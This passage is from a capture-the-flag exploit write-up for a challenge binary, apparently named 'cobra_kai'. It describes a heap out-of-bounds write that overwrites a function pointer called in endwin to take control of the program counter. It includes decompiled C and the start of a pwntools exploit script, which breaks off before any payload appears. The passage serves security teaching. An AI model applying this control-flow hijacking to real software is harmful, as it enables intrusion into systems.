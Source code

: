 ## Strategy A - Heap Fengshui With Root User

Therefore, we have out-of-bound write primitive on heap segment. Behind the fighter object on the heap, there is a ncurse_data chunk, which holds many function pointers. One of these is called inside the `endwin` function called ([6]) when you play a game. Finallay you can overwrite this value to any address and control the PC!

```c
int endwin()
{
  __int64 v0; // rax
  __int64 v1; // rdi

  v0 = HEAP_OBJ;
  if ( !HEAP_OBJ )
    return -1;
  v1 = HEAP_OBJ;
  *(HEAP_OBJ + 728) = 1;
  (*(v0 + 1088))(v1); // [6]
  sub_1AD40();
  sub_101F0();
  return reset_shell_mode();
}
```

## Script

```python
#!/usr/bin/env python3
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.terminal = ['/mnt/c/Windows/System32/wsl.exe', '-e']
context.terminal=['cmd.exe', '/c', 'start', 'wsl.exe', '--', 'sudo', 'su', '-c']
# r = process('./cobra_kai')
r = remote('0', 2325)
# r = remote('0', 2326)
# gdb.attach(r, 'handle SIG32 nostop noprint')
r.sendafter('Enter name: ', 'a'*14)
r.sendlineafter('Enter anger: ', '1')

def play_game(st, x=False, verbose=False):
    is_first = False
    cnt = 0
    while True:
        print(cnt, end=' ')
        b = r.recv(30)
        if b'Point' in b:
            break
        _ = r.recvuntil('|--------------------------------------|')
        a = r.recvuntil('|--------------------------------------|')
        # check enemy
        if verbose:
            print(a.decode('latin-1'))
            print(a.count(b'O'), a.count(b'o'))

        if a.count(b'O') == 1 and (a.count(b'o') == 0 or a.count(b'o') != 2) and a.count(b'o') != 1:
            r.send('q')
            print('')
            return False

        data = a.split(b'\n')
        if (b'^' in a or b'.' in a or b'*' in a) and not x:
```